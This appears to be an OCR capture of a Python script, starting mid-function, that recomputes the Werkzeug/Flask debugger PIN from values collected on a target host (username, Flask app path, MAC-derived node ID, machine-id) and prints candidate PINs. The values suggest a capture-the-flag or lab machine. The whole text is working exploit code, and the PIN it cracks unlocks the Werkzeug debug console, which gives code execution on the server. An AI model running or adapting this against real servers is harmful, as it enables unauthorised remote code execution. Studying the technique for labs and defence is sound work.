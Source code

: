 ```python
            machine_id ]

    h = hasher
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':

    usernames = ['www-data']
    modnames = ['flask.app']
    appnames = ['wsgi_app']
    flaskpaths = ['/app/venv/lib/python3.10/site-packages/flask/app.py']
    nodeuuids = ['345052404268']
    machineids = ['ed5b159560f54721827644bc9b220d00superpass.service']

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')
```
